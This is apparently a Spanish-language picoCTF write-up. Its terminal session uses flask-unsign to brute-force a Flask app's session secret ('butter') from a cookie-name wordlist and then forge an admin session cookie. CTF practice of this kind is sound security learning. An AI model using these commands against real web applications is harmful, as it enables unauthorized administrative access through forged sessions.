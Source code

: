 Descripción
	Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)
	
Solución
	
	┌──(gibran㉿vbox)-[~]
	└─$ cd Descargas 
	                                                                                                                 
	┌──(gibran㉿vbox)-[~/Descargas]
	└─$ echo "snickerdoodle           
	chocolate chip
	oatmeal raisin
	gingersnap
	shortbread   
	peanut butter
	whoopie pie
	sugar   
	molasses
	kiss    
	biscotti
	butter
	spritz  
	snowball
	drop      
	thumbprint
	pinwheel
	wafer   
	macaroon
	fortune
	crinkle
	icebox     
	gingerbread
	tassie   
	lebkuchen
	macaron
	black and white 
	white chocolate macadamia" > cookies.txt
	
	                                                                                                                 
	┌──(gibran㉿vbox)-[~/Descargas]
	└─$ flask-unsign -u --server "http://mercury.picoctf.net:44693" --wordlist cookies.txt 
	No se pudo encontrar la base de datos de command-not-found. Ejecute «sudo apt update» para rellenarla de información.
	flask-unsign: no se encontró la orden
	                                                                                                                 
	┌──(gibran㉿vbox)-[~/Descargas]
	└─$ pip3 install flask-unsign
	error: externally-managed-environment
	
	× This environment is externally managed
	╰─> To install Python packages system-wide, try apt install
	    python3-xyz, where xyz is the package you are trying to
	    install.
	    
	    If you wish to install a non-Kali-packaged Python package,
	    create a virtual environment using python3 -m venv path/to/venv.
	    Then use path/to/venv/bin/python and path/to/venv/bin/pip. Make
	    sure you have pypy3-venv installed.
	    
	    If you wish to install a non-Kali-packaged Python application,
	    it may be easiest to use pipx install xyz, which will manage a
	    virtual environment for you. Make sure you have pipx installed.
	    
	    For more information, refer to the following:
	    * https://www.kali.org/docs/general-use/python3-external-packages/
	    * /usr/share/doc/python3.13/README.venv
	
	note: If you believe this is a mistake, please contact your Python installation or OS distribution provider. You can override this, at the risk of breaking your Python installation or OS, by passing --break-system-packages.
	hint: See PEP 668 for the detailed specification.
	                                                                                                                 
	┌──(gibran㉿vbox)-[~/Descargas]
	└─$ python -m venv ~/.venv     
	                                                                                                                 
	┌──(gibran㉿vbox)-[~/Descargas]
	└─$ source ~/.venv/bin/activate
	                                                                                                                 
	┌──(.venv)─(gibran㉿vbox)-[~/Descargas]
	└─$ pip install flask-unsign   
	Requirement already satisfied: flask-unsign in /home/gibran/.venv/lib/python3.13/site-packages (1.2.1)
	Requirement already satisfied: flask in /home/gibran/.venv/lib/python3.13/site-packages (from flask-unsign) (3.1.2)
	Requirement already satisfied: requests in /home/gibran/.venv/lib/python3.13/site-packages (from flask-unsign) (2.32.5)
	Requirement already satisfied: itsdangerous in /home/gibran/.venv/lib/python3.13/site-packages (from flask-unsign) (2.2.0)
	Requirement already satisfied: markupsafe in /home/gibran/.venv/lib/python3.13/site-packages (from flask-unsign) (3.0.3)
	Requirement already satisfied: werkzeug in /home/gibran/.venv/lib/python3.13/site-packages (from flask-unsign) (3.1.3)
	Requirement already satisfied: blinker>=1.9.0 in /home/gibran/.venv/lib/python3.13/site-packages (from flask->flask-unsign) (1.9.0)
	Requirement already satisfied: click>=8.1.3 in /home/gibran/.venv/lib/python3.13/site-packages (from flask->flask-unsign) (8.3.0)
	Requirement already satisfied: jinja2>=3.1.2 in /home/gibran/.venv/lib/python3.13/site-packages (from flask->flask-unsign) (3.1.6)
	Requirement already satisfied: charset_normalizer<4,>=2 in /home/gibran/.venv/lib/python3.13/site-packages (from requests->flask-unsign) (3.4.4)
	Requirement already satisfied: idna<4,>=2.5 in /home/gibran/.venv/lib/python3.13/site-packages (from requests->flask-unsign) (3.11)
	Requirement already satisfied: urllib3<3,>=1.21.1 in /home/gibran/.venv/lib/python3.13/site-packages (from requests->flask-unsign) (2.5.0)
	Requirement already satisfied: certifi>=2017.4.17 in /home/gibran/.venv/lib/python3.13/site-packages (from requests->flask-unsign) (2025.10.5)
	                                                                                                                 
	┌──(.venv)─(gibran㉿vbox)-[~/Descargas]
	└─$ flask-unsign -u --server "http://mercury.picoctf.net:44693" --wordlist cookies.txt
	[*] Server returned HTTP 302 (FOUND)
	[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aPwATA.YyvEn4E47mwt62m-yTdXOqE6jRo
	[*] Session decodes to: {'very_auth': 'blank'}
	[*] Starting brute-forcer with 8 threads..
	[+] Found secret key after 28 attemptscadamia
	'butter'
	                                                                                                                 
	┌──(.venv)─(gibran㉿vbox)-[~/Descargas]
	└─$ flask-unsign -s -c "{'very_auth': 'admin'}" -S butter                       
	eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aPwA2A.gAMoEBXfuR8ywCn6ubay2lmuIxg
	
	
Notas adicionales
	
	
Referencias
	
	